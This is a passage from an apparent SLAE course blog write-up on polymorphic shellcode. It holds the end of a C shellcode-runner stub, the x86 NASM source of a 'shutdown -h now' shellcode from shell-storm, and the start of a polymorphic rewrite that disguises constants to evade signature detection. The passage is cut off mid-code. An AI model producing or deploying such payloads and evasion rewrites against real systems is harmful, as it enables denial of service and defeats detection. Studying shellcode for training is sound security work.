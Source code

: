 	int (*ret)() = (int(*)())code;

	ret();

}
{% endhighlight %}

![assignment6-1](https://bohansec.com/assets/SLAE-assignment6/1.PNG "assignment6-1")

We can see the new shellcode has a size of 138, which is 150% size of the original shellcode.

### Second Shellcode - shutdown -h now Shellcode - 56 bytes

[Shellcode link](http://shell-storm.org/shellcode/files/shellcode-876.php){:target="_blank"}

Original Nasm file:

{% highlight js %}
global _start			

section .text
_start:

    xor eax, eax
    xor edx, edx ; envp
 
    push eax
    push word 0x682d ;-h
    mov edi, esp
 
    push eax
    push byte 0x6e ; now
    mov [esp+1], word 0x776f
    mov edi, esp
 
    push eax
    push 0x6e776f64 ; /sbin/shutdown
    push 0x74756873
    push 0x2f2f2f6e
    push 0x6962732f
    mov ebx, esp
 
    push edx ; null envp
    push esi ; now null
    push edi ; -h null
    push ebx ; /sbin/shutdown null
    mov ecx, esp
    mov al, 11
{% endhighlight %}

Polymorphic version:

{% highlight js %}
global _start			

section .text
_start:

	xor    eax,eax 
	xor    edx,edx
	push   eax     
	push   word 0x682d
	mov    edi,esp
	push   eax
	push   0x6e
	mov    word [esp+0x1],0x776f
	mov    edi,esp
	push   eax
	mov ecx, 0x5D665E53
	add ecx, 0x11111111